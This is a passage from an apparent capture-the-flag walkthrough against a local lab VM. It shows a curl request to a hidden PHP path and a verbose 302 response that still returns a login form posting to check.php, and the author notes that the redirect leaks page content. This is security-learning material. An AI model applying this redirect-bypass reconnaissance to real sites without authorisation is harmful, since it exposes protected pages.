 Look at line 25. _Ignoring the request-body_. But we got a 302? Ok lets make another request without the `-L` flag and check if it reveals anything:

```bash
root@kali:~# curl -v http://192.168.56.102/super_secret_login_path_muhahaha/personal.php -c cookies -b cookies
* About to connect() to 192.168.56.102 port 80 (#0)
*   Trying 192.168.56.102...
* connected
* Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET /super_secret_login_path_muhahaha/personal.php HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.56.102
> Accept: */*
> Cookie: PHPSESSID=8u300rbb0747fi6iocm0lt4310
>
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 302 Found
< Date: Sun, 20 Jul 2014 07:54:07 GMT
< Server: Apache/2.2.22 (Debian)
< X-Powered-By: PHP/5.4.4-14+deb7u11
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Location: index.php
< Vary: Accept-Encoding
< Content-Length: 387
< Content-Type: text/html
<
<HTML>
<FORM name="login" method="post" action="check.php">
<CENTER>
<H1> Personal Folder Login </H1>
<H3>
<STRONG>Username:</STRONG>
<INPUT name="username" id="username" type="text" value=""/>
<BR>
<BR>
<STRONG>Password:</STRONG>
<INPUT name="password" id="password" type="password" value=""/>
<BR>
<BR>
<INPUT name="mysubmit" id="mysubmit" type="submit" value="Login"/>
</H3>
</HTML>

* Connection #0 to host 192.168.56.102 left intact
* Closing connection #0
```

Well what do you know. We get a 302 and content. This time we have a login form that posts to `check.php`. A `GET` request to `check.php` resulted in a 302, but to `personal.php` and not `index.php`.
